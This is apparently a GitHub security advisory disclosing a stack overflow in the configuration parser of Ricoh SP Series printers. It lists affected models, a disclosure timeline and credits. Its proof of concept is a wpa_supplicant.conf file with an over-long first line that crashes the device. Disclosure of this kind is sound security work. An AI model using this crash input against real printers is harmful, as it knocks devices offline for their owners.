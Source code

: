 # Ricoh Printer SP Series Vulnerability

This vulnerability lies in the `wpa_supplicant_conf_parser` function which influences the **most lastest version** of **Ricoh Printer SP Series**. Infected products are listed below:

- SP 320DN
- SP 325DNw
- SP 320SN
- SP 320SFN
- SP 325SNw
- SP 325SFNw
- SP 330SN
- Aficio SP 3500SF
- SP 221S
- SP 220SNw
- SP 221SNw
- SP 221SF
- SP 220SFNw
- SP 221SFNw

## Vulnerability description

In function `wpa_supplicant_conf_parser`, the program opens the file named `/etc/wpa_supplicant.conf` and reads in the content of the file using the function `os_file_get`. The content of the configuration file is stored on a heap variable named `filecontent` on line 48 and line 58 in the picture below. Then it reads in each line of the file content onto the stack using `strncpy` on line 79. However, the code does not check each line's length, which could lead to stack overflow vulnerabilities.

So by controling the content of the configuration file, the attacker can easily perform a **Deny of Service(DoS) Attack** or **Remote Code Execution(RCE)** with carefully crafted overflow data.

![1.png](1.png)

## POC

Any valid configuration file whose first line's length is greater than `0x38` can cause a DoS on this device. Example Configuration file `/etc/wpa_supplicant.conf` is listed below.

```python
# allow frontend (e.g., wpa_cli) to be used by all users in 'wheel' group # This is a looooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooong line
ctrl_interface=DIR=/var/run/wpa_supplicant GROUP=wheel
#
# home network; allow all valid ciphers
network={
	ssid="home"
	scan_ssid=1
	key_mgmt=WPA-PSK
	psk="very secret passphrase"
}
#
# work network; use EAP-TLS with WPA; allow only CCMP and TKIP ciphers
network={
	ssid="work"
	scan_ssid=1
	key_mgmt=WPA-EAP
	pairwise=CCMP TKIP
	group=CCMP TKIP
	eap=TLS
	identity="user@example.com"
	ca_cert="/etc/cert/ca.pem"
	client_cert="/etc/cert/user.pem"
	private_key="/etc/cert/user.prv"
	private_key_passwd="password"
}
```

## Timeline

- 2021-06-04 report to CVE & CNVD
- 2021-06-17 CNVD ID assigned: CNVD-2021-42364

## Acknowledgment

Credit to [@Ainevsia](https://github.com/Ainevsia), [@peanuts](https://github.com/peanuts62) and [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.
